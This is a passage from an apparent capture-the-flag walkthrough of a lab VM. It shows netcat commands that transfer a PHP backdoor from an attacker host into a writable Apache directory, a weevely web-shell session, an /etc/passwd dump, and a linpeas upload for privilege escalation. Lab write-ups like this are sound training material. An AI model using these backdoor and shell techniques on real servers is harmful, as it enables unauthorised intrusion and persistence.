 Among other results, we found that __only one directory in Apache exposed stucture is writable__. It is mandatory
to push the backdoor in HTTP-reachable point, in order to use it. This is the good place.

#### Backdoor sending
Let's create a reverse shell, not redirected to bash, but where in and out streams are from and to files

##### On hacking machine
`nc -lnvp 10000 < ./shell.php`

When a connection will occurs, the `./shell.php` file content will be sent

##### On VM

`nc 192.168.1.26 10000 > /var/www/html/include/shell.php`

This assumes that my hacking machine is reachable at `192.168.1.26`

When transfer is done, `CTRL+C` both side of connection.

#### Backdoor usage

```
weevely http://debian.home/include/shell.php pass

[+] weevely 4.0.1

[+] Target:	debian.home
[+] Session:	/root/.weevely/sessions/debian.home/shell_0.session

[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.

weevely>
```
Here we are permanently connected.

## Privilege escalation

Try to find other interesting users :

```
weevely> :audit_etcpasswd
...
clapton:x:1000:1000:,,,:/home/clapton:/bin/bash
...
```

This must be the user to reach for owning `user.txt`.

### Trying to break in `clapton`

Nothing obvious (to me) at this point. So using `weevely` `:file_upload` command, I uploaded [`linpeas.sh`](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS).
